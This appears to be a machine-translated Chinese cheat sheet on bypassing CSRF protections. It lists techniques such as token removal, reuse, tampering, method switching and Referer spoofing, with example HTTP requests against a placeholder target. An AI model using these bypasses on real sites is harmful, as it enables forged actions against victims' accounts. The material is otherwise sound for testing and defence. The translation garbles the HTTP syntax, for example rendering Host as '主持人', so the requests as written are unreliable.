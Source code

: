 > -更改请求方法[POST=>GET]  
-移除令牌，并提供一个空参数  
-通过删除请求并使用该令牌来复制未使用的有效令牌  
-使用自己的CSRF令牌将其提供给受害者  
-将值替换为具有相同长度的标记的值 
-对令牌进行反向工程  
-通过HTML注入提取令牌 
-从非格式“Content Type:application/json”或“Content Type:application/x-url-encoded”切换到“Content Type:Form multipart” 
-绕过正则表达式  
-如果网站正在寻找“bank.com“在referer URL中，也许”bank.com.attcker.com“或”http://www.com/bank.cn.com”将起作用。
> -删除referer头（将此<meta name=“referer”content=“no referer”>添加到有效负载或html代码中）

＃绕过CSRF令牌   

1.更改单个字符
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaab
```

2.发送空值的令牌
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token =
```

3.用相同长度的令牌替换
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaabaa
```
4.更改POST / GET方法
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
GET / register？username = dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa HTTP / 1.1
主持人：target.com
[...]
```

5.从请求中删除令牌
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456
```

6.使用其他用户的有效令牌
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = ANOTHER_VALID_TOKEN
```

7.尝试解密哈希
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = MTIzNDU2
```
MTIzNDU2 => 123456使用base64

8.有时反CSRF令牌由两部分组成，其中一个保持静态，而另一个则动态
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j123
```
当我们再次注册时，这样的请求
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j124
```
如果您注意到令牌的“ vi802jg9f8akd9j”部分保持不变，则只需要发送静态部分即可


